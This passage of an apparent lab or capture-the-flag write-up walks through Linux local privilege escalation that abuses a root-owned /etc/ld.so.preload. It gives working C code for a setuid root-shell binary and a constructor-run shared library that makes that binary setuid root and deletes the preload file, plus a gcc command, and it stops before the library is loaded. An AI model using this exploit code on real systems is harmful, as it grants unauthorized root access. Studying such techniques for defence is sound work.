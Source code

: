 # ![16](images/test(1).jpg?raw=true "test")

+ **And the file owner is root. Let's exploit this vulnerability. First, let's create a C program so we can generate a root shell and compile it. We're gonna create it in the /tmp directory**

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
	// set user as root;
	setuid(0);
	setgid(0);
	seteuid(0);
	setegid(0);

	// spawn a shell;
	system("/bin/bash");
}
```

``gcc root_sh.c -o root_sh``

+ **We have to make another little thing; if we run the executable, we'll do it as our user. So we need to change the ownership and permission of the file so we can run it as root. To do this, we'll create a dynamic library file and then compile it. Create it into the /tmp directory too.**

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>

__attribute__ ((__constructor__))

void libshell(void)
{
    chown("/tmp/root_sh", 0, 0);
    chmod("/tmp/root_sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] shell loaded!\n");
}
```
